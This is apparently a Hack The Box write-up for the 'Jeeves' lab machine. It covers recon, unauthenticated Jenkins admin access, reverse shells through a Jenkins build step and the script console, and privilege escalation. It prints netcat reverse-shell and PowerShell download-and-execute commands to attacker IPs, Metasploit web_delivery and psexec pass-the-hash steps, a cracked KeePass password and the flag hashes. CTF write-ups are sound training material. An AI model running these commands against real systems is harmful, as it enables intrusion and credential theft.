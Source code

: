 1. Recon
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
2. Use Dirbuster find out the directories running on port 50000
3. /askjeeves/ has a Jekins app running
4. to get admin without authenticating:
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/

# Exploitation Method 1

1. On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
2. Select “Add building Step” and select  “Execute Windows bash command” 
3. On the bash console type powershell wget "http://10.10.14.14/nc.exe" -outfile "nc.exe" 
    nc.exe -e cmd.exe 10.10.14.14 9999
4. Start apache and place nc.exe for download 
5. Set up nc to listen up
6. Run the shell on jenkins 

Optional and recommended: you can also create a msfvenom shell and multihadler to catch it 

# Exploitation Method 2
1. On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
2. Set up an nc listener to recieve the shell
3. Spawn a meterpreter shell:
```
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
4. We paste the following generated code into the netcat listener and meterpreter session should be created
```
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```

# Privilege Escalation Method 1
1. Download CEH.kdbx keepass file
2. Use john2keepass to create a hashdump file
3. crack the has using john format=KeePass and wordlist=rockyou.txt
4. we obtain the pass : CEH:moonshine1
5. Install Keepass2 : apt-get install keepass2
6. NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
7. Using msf windows smb to connect using the keepass creds   
```
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
```

8. There is an alternate data stream applied to the ROOT flag. to view flag
dir /R
more < hm.txt:root.txt

| Flag | Hash |
|----|----|
| ROOT | afbc5bd4b615a60648cec41c6ac92530 |
| USER | e3232272596fb47950d59c4cf1e7066a |

# References

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
https://www.hackingarticles.in/hack-the-box-challenge-jeeves-walkthrough/
